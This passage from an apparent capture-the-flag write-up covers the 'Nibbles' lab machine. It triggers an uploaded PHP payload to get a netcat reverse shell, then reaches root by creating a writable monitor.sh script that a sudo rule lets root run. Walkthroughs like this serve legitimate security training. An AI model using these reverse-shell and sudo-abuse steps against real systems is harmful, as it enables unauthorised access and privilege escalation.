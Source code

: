 Now, just need to visit the following URL to execute the PHP payload.

```none
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

And a reverse shell!

```none
└─$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.75] 53898
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:30:21 up 19 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## Flag: User

Since we are logged in as the `nibbler` user, the user flag is pretty easy:

```none
$ ls -lisa /home
total 12
   12 4 drwxr-xr-x  3 root    root    4096 Dec 10  2017 .
    2 4 drwxr-xr-x 23 root    root    4096 Dec 15 05:13 ..
49942 4 drwxr-xr-x  3 nibbler nibbler 4096 Dec 29  2017 nibbler
$ wc -c /home/nibbler/user.txt
33 /home/nibbler/user.txt
```

## Flag: Root

Before running any privesc scripts I had a quick poke around. Seems like there was a `sudo` configuration issue.

```none
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

This should be pretty easy. Mainly because the `monitor.sh` script doesn't exist, and lives in a location we have access to. I created a folder, then created the script.

```none
cd /home/nibbler
mkdir -p personal/stuff
cd personal/stuff
echo "bash" > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```
